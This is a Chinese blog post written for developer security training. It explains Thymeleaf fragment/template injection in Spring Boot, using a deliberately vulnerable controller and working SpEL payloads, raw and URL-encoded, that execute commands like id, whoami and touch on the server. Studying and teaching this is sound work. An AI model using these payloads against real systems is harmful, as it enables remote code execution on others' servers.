 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5h9q3nWgg1LJ6R2lCMYsrA)

本文首发于先知社区，原文地址：https://xz.aliyun.com/t/9826  ，点击阅读原文可达。

全文共 3134 个字，预计阅读时间为 20 分钟。

最近需要给研发部门的开发 GG 们做一场关于 Java 安全编码的培训，一方面后端开发使用 Springboot+thymeleaf 框架较多，因此通过代码示例以及漏洞演示加深理解。借此机会，又再去学习了下安全大佬们关于 Thymeleaf 这个漏洞的研究，因此本文针对漏洞的执行原理和过程并没有新的见解并扩展新的 payload，在复现过程中发现一些新的思路，指出部分文章的一些错误表述，仅此而已。

0x01 环境配置  

无一例外，我也是参考这个 https://github.com/veracode-research/spring-view-manipulation/ 搭建的，核心代码如下：

```
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}
```

```
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x 
```

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPktRWyf1zNwj92UyaH9kDFibwic0bVAJbj4oOew7J6E7KNDBhYbicVxtFlg/640?wx_fmt=png)

0x02 Fragment 注入通用 payload
--------------------------

如果这里的控制层用的是 @Controller 进行注解的话，使用如下的 payload 即可触发命令执行。

```
http://ip:port/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::.x
```

需要注意的是要进行 urlencode 编码：

```
（1）__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::
（2）__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("touch executed").getInputStream()).next()}__::
```

发送请求后执行 id 命令后回显

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPkk2AJBgK6ibic1hAAX0uJMPiamYAwekyx9jN8pWOo6AsAFl9v4wMvISqsQ/640?wx_fmt=png)其实后面的. x 不需要也可以，也就是只有:: 这个也是可以的（不过是不返回执行命令后的结果了，写文件是可以的，以下所有 payload 均不再根据:: 单独列出），有些文章净是瞎说。例如 payload 是这样也是可以的。

```
/**  StandardFragmentProcessor  **/
final FragmentSelection fragmentSelection =
                FragmentSelectionUtils.parseFragmentSelection(configuration, processingContext, standardFragmentSpec);
```

